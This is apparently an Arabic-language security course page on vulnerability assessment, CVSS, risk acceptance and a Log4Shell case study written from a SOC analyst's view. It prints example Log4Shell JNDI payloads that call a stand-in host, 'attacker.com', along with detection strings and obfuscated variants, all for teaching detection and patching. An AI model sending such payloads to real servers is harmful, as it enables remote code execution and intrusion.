





> **الهدف من الـ Section ده:**  
> هتفهم إيه هو الـ Vulnerability Assessment، وإزاي الـ Organizations بتشوف نقاط ضعفها وبتقرر تعمل إيه بيها — وهتشوف مثال حقيقي بيوضح إزاي ثغرة واحدة زي Log4Shell ممكن تدمر أنظمة بالكامل.
---

## Table of Contents

- [Asset Inventory](#asset-inventory)
- [What is a Vulnerability Assessment](#what-is-a-vulnerability-assessment)
- [Risk Acceptance — When Organizations Choose Not to Fix](#risk-acceptance--when-organizations-choose-not-to-fix)
- [Risk Rating and CVSS](#risk-rating-and-cvss)
- [VA vs Penetration Testing](#va-vs-penetration-testing)
- [Case Study — Apache Log4j Log4Shell](#case-study--apache-log4j-log4shell)
- [SOC Analyst Perspective — Detecting Log4Shell](#soc-analyst-perspective--detecting-log4shell)
- [Summary](#summary)

---

## Asset Inventory

### ليه الـ Asset Inventory مهمة أصلاً؟

تخيل إنك شغال في شركة كبيرة فيها آلاف الـ Servers والـ Endpoints — هل تقدر تقول إنك عارف كل جهاز موجود على الشبكة؟ في الغالب لأ.

الحقيقة إن كتير من الـ Organizations حتى دول فيها SOC Teams، بيكتشفوا باستمرار أنظمة كانوا مش عارفين بيها أصلاً. ده بيحصل لأسباب كتير:

- الأنظمة القديمة اللي اتنسيت (**Legacy Systems**)
- أجهزة اتركبت من غير توثيق (**Shadow IT**)
- توسع سريع في البنية التحتية من غير تسجيل منظم

لو مش عارف إيه اللي عندك، مش هتقدر تحميه.

### إيه هو الـ Asset Inventory؟

الـ **Asset Inventory** هو قائمة منظمة ومحدثة بكل حاجة الـ Organization بتمتلكها أو بتشغّلها وليها قيمة من ناحية الـ Security. بتشمل:

| نوع الـ Asset | أمثلة |
|---|---|
| Physical Devices | Servers, Workstations, Printers, Routers |
| Virtual Machines | Cloud Instances, Containers |
| Software & Applications | Web Apps, Databases, SaaS Tools |
| Network Devices | Firewalls, Switches, Access Points |
| Data Stores | File Servers, Backup Systems, Cloud Storage |

### ليه الـ Inventory ضروري للـ Security؟

```
بدون Inventory → مش عارف إيه اللي عندك
           ↓
مش هتعرف تعمل Vulnerability Assessment صح
           ↓
هيبقى فيه أنظمة مش متحماية وأنت مش عارف
           ↓
الـ Attacker هيعرف يدخل من غير ما تحس
```

> [!IMPORTANT]
> الـ Asset Inventory هي الخطوة الأولى قبل أي عملية Vulnerability Assessment. مستحيل تحمي حاجة مش عارف إنها موجودة.

---

## What is a Vulnerability Assessment

### التعريف

الـ **Vulnerability Assessment** هو عملية منهجية منظمة بتهدف إلى:

1. **Identifying** — اكتشاف نقاط الضعف في الأنظمة والشبكات والتطبيقات
2. **Analyzing** — فهم طبيعة كل ثغرة وسببها
3. **Prioritizing** — ترتيب الثغرات حسب خطورتها عشان تعرف تبدأ بإيه

### إزاي بتتم؟



> [!NOTE]
> الـ VA بتكشف الثغرات من غير ما تستغلها — ده الفرق الأساسي بينها وبين الـ Penetration Testing.

---

## Risk Acceptance — When Organizations Choose Not to Fix

### الـ CISO بيقرر إيه؟

مش كل ثغرة لازم تتصلح فوراً — ده مش كسل، ده قرار business مدروس. الـ **CISO (Chief Information Security Officer)** بيقيّم كل ثغرة بناءً على عوامل متعددة ويقرر:

- **Remediate** — يصلح الثغرة
- **Accept the Risk** — يقبل الخطر رسمياً ويوثقه
- **Mitigate** — يحط controls تقلل من الخطر من غير ما تحله كامل
- **Transfer** — ينقل الخطر (مثلاً عن طريق Insurance)

### العوامل اللي بتحدد القرار



### مثال توضيحي

تخيل إن في ثغرة في نظام قديم isolated مش متصل بالإنترنت:

- **Likelihood**: منخفضة جداً لأنه isolated
- **Impact**: متوسط
- **Cost of Remediation**: عالي جداً (هيحتاج يوقف الإنتاج أسبوعين)
- **Regulatory Consequences**: مفيش متطلبات قانونية تخص النظام ده

**القرار**: Accept the Risk مع توثيق رسمي ومراقبة دورية.

> [!WARNING]
> الـ Risk Acceptance مش معناه تتجاهل الثغرة. لازم يتوثق رسمياً ويتراجع فيه بصفة منتظمة. لو الظروف اتغيرت (مثلاً النظام اتوصل بالإنترنت)، القرار لازم يتراجع فيه.

> [!IMPORTANT]
> غياب الـ **Regulatory Consequences** ممكن يخلي بعض الـ Organizations تتهاون في حماية بيانات معينة. ده بالظبط ليه الـ Security Frameworks والـ Compliance Requirements (زي GDPR أو PCI-DSS أو ISO 27001) بتلعب دور محوري في إجبار الـ Organizations على مستوى حماية ثابت.

---

## Risk Rating and CVSS

### إيه هو الـ CVSS؟

الـ **CVSS (Common Vulnerability Scoring System)** هو نظام موحد لتقييم خطورة الثغرات. بيديك Score من **0 إلى 10**.

| Score | Severity |
|---|---|
| 0.0 | None |
| 0.1 – 3.9 | Low |
| 4.0 – 6.9 | Medium |
| 7.0 – 8.9 | High |
| 9.0 – 10.0 | Critical |

### الـ CVSS بيحسب إيه؟

الـ Score بيتأثر بعدة عوامل:



- **Attack Vector**: من فين بيتعمل الهجوم؟ Network / Adjacent / Local / Physical
- **Attack Complexity**: صعب ولا سهل يتنفذ؟
- **Privileges Required**: بيحتاج صلاحيات ولا لأ؟
- **User Interaction**: بيحتاج المستخدم يعمل حاجة؟
- **Impact (CIA)**: أد إيه بيأثر على Confidentiality / Integrity / Availability

### الـ CVE — Common Vulnerabilities and Exposures

كل ثغرة معروفة بتاخد **CVE ID** — ده زي رقم قومي للثغرة.

```
CVE-[السنة]-[رقم تسلسلي]
مثال: CVE-2021-44228  ← ده CVE خاص بـ Log4Shell
```

يمكنك تشوف تفاصيل أي CVE على: [https://nvd.nist.gov](https://nvd.nist.gov)

> [!NOTE]
> مش كل الثغرات عندها CVSS Score. ممكن يكون النظام ضعيف بسبب **Misconfiguration** مش بسبب ثغرة كود — وفي الحالة دي ممكن يتاستخدم أدوات Legitimate لتنفيذ الهجوم (زي استخدام PowerShell في هجوم Living off the Land).

---

## VA vs Penetration Testing

| المعيار | Vulnerability Assessment | Penetration Testing |
|---|---|---|
| الهدف | اكتشاف وتقييم الثغرات | إثبات الاستغلال الفعلي |
| الاستغلال | لأ | أيوه |
| العمق | واسع ولكن أقل عمق | أعمق على نطاق أضيق |
| المخرج | قائمة ثغرات مع Risk Rating | تقرير بيثبت Business Impact حقيقي |
| من بيعمله | VA Team / Security Tools | Ethical Hackers / Red Team |
| التكرار | دوري (مثلاً كل ربع سنة) | بشكل أقل تكراراً |

> [!TIP]
> الـ VA وال Pen Test مش بدائل لبعض — هما مكملين. ابدأ بالـ VA عشان تعرف الـ Scope، وبعدين استخدم Pen Test عشان تثبت الـ Business Impact الحقيقي.

---

## Case Study — Apache Log4j Log4Shell

### إيه هو Log4j؟

الـ **Log4j** هو Library مشهورة جداً في Java بتُستخدم في عملية الـ **Logging** — يعني تسجيل الأحداث والعمليات في الـ Applications.

بتتلاقيها في:
- Web Applications
- Cloud Services
- حتى Security Tools نفسها

### CVE-2021-44228 — الثغرة

**CVSS Score: 10.0 (Maximum Critical)**

الـ Score ده الأعلى ممكن، وده لأسباب واضحة:

| الخاصية | القيمة |
|---|---|
| Attack Vector | Network (Remote) |
| Attack Complexity | Low |
| Privileges Required | None |
| User Interaction | None |
| Confidentiality Impact | High |
| Integrity Impact | High |
| Availability Impact | High |

### الثغرة بالتفصيل

Log4j كان عنده Feature اسمها **JNDI Lookup** — الـ JNDI اختصار لـ **Java Naming and Directory Interface**.

الفكرة إن Log4j لما بيسجل رسالة، بيقدر يفسر إذا كانت بتحتوي على expression معين ويجيب بيانات من سيرفر خارجي.

```
المشكلة: Log4j بيعمل Log لأي input → بما فيه HTTP Headers
الاستغلال: لو الـ Input احتوى على ${jndi:ldap://attacker.com/a}
النتيجة:  السيرفر بيتصل بسيرفر المهاجم ويجيب كود خبيث وينفذه
```

### الـ Attack Flow



### مثال على الـ Payload

```
${jndi:ldap://attacker.com/exploit}
```

لو السيرفر vulnerable، بمجرد ما Log4j يسجل الـ Header ده، بيتصل بسيرفر المهاجم وبينفذ الكود.

### ليه خطيرة جداً؟

- **Zero effort**: المهاجم بس بيبعت HTTP Request عادي مع الـ Payload في الـ Header
- **Ubiquitous**: Log4j موجودة في ملايين الأنظمة
- **Remote Code Execution**: بتديك full control على السيرفر
- **Impact**: سرقة بيانات، تشفير ملفات (Ransomware)، تدمير الأنظمة

### الحل

```bash
# الحل الأساسي: Upgrade
Log4j2 >= 2.17.1 (for Java 8)

# حل مؤقت لو مش قادر تعمل Upgrade
# تعطيل الـ JNDI Lookups:
log4j2.formatMsgNoLookups=true

# أو عن طريق Environment Variable:
LOG4J_FORMAT_MSG_NO_LOOKUPS=true
```

---

## SOC Analyst Perspective — Detecting Log4Shell

### دورك كـ SOC Analyst

كـ GRC Student، التركيز بتاعك على الـ Risk Assessment والـ CVSS Score. أما كـ **SOC Analyst**، سؤالك المختلف هو:

**"إزاي أكتشف إن حد بيحاول يستغل الثغرة دي؟"**

### التفكير الصح

لو الـ Payload بيجي عن طريق HTTP Header في URL:



### الـ Log Artifacts اللي تدور عليها

لو بتعمل Investigation، دور على:

```
في HTTP Logs / Proxy Logs / WAF Logs:

1. الـ Strings دي في الـ Headers:
   - ${jndi:
   - ${jndi:ldap://
   - ${jndi:rmi://
   - ${jndi:dns://

2. في DNS Logs:
   - Outbound DNS queries لدومينات غريبة
   - DNS lookups من الـ Application Server نفسه

3. في Network Logs:
   - Outbound LDAP connections (Port 389)
   - Outbound RMI connections (Port 1099)
   من الـ Application Server لعناوين خارجية
```

### الـ Security Solutions المسؤولة عن الكشف

| الأداة | دورها في كشف Log4Shell |
|---|---|
| WAF | بتفحص الـ HTTP Headers وبتحجب الـ Payloads الخبيثة |
| IDS/IPS | بتكشف الـ Patterns المشبوهة في الـ Network Traffic |
| SIEM | بتجمع الـ Logs وبتعمل Correlation وبتطلع Alerts |
| Proxy | بتلوج كل الـ Outbound Traffic وممكن تكشف الـ JNDI Connections |
| EDR | بتكشف لو فيه Process جديد اتعمل على السيرفر بعد الاستغلال |

> [!TIP]
> ممكن تستخدم AI Tools في التحقيق، بس المهم إنك تفهم الـ Output اللي بيطلعه وتعرف تفسره — مش بس تكوبي الـ Results. الـ SOC Analyst الشاطر هو اللي يعرف يسأل الأسئلة الصح.

> [!WARNING]
> الـ Payload ممكن يتعمله URL Encoding أو Base64 Encoding عشان يتجنب الـ Simple String Matching. لازم الـ WAF Rules والـ Detection Signatures تشمل المتغيرات دي:
> ```
> %24%7Bjndi%3A    ← URL Encoded version of ${jndi:
> ${${lower:j}ndi:  ← Obfuscated version
> ```

---

## Summary

### ملخص القسم ده

- **Asset Inventory** هي الأساس — مستحيل تحمي حاجة مش عارف بوجودها. لازم تكون قائمة منظمة ومحدثة بكل الـ Assets.

- **Vulnerability Assessment** هي عملية منهجية لاكتشاف وتحليل وترتيب أولويات الثغرات الأمنية — بدون استغلال.

- **Risk Acceptance** قرار business مدروس، مش إهمال. الـ CISO بيقيّم الـ Likelihood والـ Impact والـ Cost والـ Regulatory Consequences قبل ما يقرر.

- **CVSS** هو النظام الموحد لتقييم خطورة الثغرات من 0 إلى 10. مش كل الثغرات عندها CVSS Score — الـ Misconfigurations مثلاً.

- **Log4Shell (CVE-2021-44228)** مثال حي على ثغرة CVSS 10.0 — بتُستغل عن طريق إرسال JNDI Payload في HTTP Header، اللي بيخلي السيرفر يتصل بسيرفر المهاجم وينفذ كود خبيث.

- **كـ SOC Analyst**: تركيزك على الـ Detection — دور على `${jndi:` في الـ HTTP Headers، وعلى Outbound LDAP/DNS Connections غريبة في الـ Logs. الأدوات الأساسية: WAF، IDS/IPS، SIEM، Proxy Logs.
